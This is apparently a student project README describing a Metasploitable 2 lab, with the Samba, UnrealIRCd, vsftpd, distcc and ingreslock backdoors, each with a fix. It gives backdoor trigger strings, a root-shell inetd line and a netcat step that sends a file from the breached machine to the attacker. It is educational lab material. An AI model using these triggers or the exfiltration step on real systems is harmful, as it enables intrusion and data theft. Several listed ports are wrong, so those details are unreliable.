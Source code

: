 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/).

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding of system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I will be using different python3 functions. This allows the users to be able to view well documented code in an easy to read format. 

## System Requirements:
- Metasploitable 2
- Virtualbox

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol.
- Exploit: If Samba is configured to use the username map script and it is improperly configured, anyone can send arbitrary commands in disguise as a username to the server. The data sent to the targeted machine is not sanitized. The command will then be run without needing authorization.
- Fix: To fix this, the user can update to a new version. If they are still on the older version, the user can navigate to /etc/samba/smb.conf on the vulnerable machine. The user can then either comment out or remove the line "username map script = /etc/samba/scripts/mapusers.sh". 

### UnrealIRCd CVE-2010-2075
- Version: 3.2.8.1
- Port: 6667
- Desc: UnrealIRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealIRCD contains an exploit where it will execute any command with the priviledges of the user that is running the service if it begins with the string 'AB'. Ex: AB; [command to run].
- Exploit Cont: This exploit was introduced because someone had replaced all UnrealIRCD file download options on their mirror sites with a version that had a trojan in it.
- Fix: The only way to fix this exploit is to redownload a legitamate version of Unreal. This is because the backdoor is located in the "core" of the service (according to the developers).

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Port: 2121
- Desc: VSFTP is an FTP server for linux. 
- Exploit: There was a backdoor built into the VSFTP service that allows someone to gain root access to a targeted machine if they login with a username that has ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.
- Fix: The individual could update the the service or if they are still running on the version with the backdoor, they could set up an iptable to drop unused ports. (Which should be done anyways). Ex: iptables -A INPUT -p tcp --dport 6200 -j DROP and iptables -A INPUT -p udp --dport 6200 -j DROP

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any. Unleass the version is using ssh key pairs.
- Port: 25
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security and poor cyber security practices.
- Fix: Use strong passwords that can not be easily guessed. A more secure option would be to set up ssh key pairs.

### DistCC CVE-2004-2687
- Version: 2.x
- Port: 36255
- Desc: Distccd is a service that allows for a faster compilation time of C programs by distributing the compilation tasks across multiple different machines where it is able to find resources to do so.
- Exploit: DistCCD has a vulnerability that allows an attacker to execute arbitray commands on the targeted system. This is because the distccd daemon improperly handles commands send to it as a compilation request.
- Fix: Other than updating distccd to a version where the exploit has been patched, the user can configure distccd to only accept connection from trusted hosts through the use of a custom firewall configuration.

### Ingreslock 
- Version: ""
- Port: 1524 
- Desc: Ingreslock 
- Exploit: There was a backdoor implemented into Ingreslock on Metasploitable 2. Ingreslock was a popular target for users to add a backdoor on in the past. Often times, machines would be compromised by malicoius code (from software etc...) and it would implement the backdoor on the machine.
- Fix: Navigate to the /etc/inetd.conf file and remove the line "ingreslock stream tcp nowait root /bin/bash bash -i"


## Post-Exploitation Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
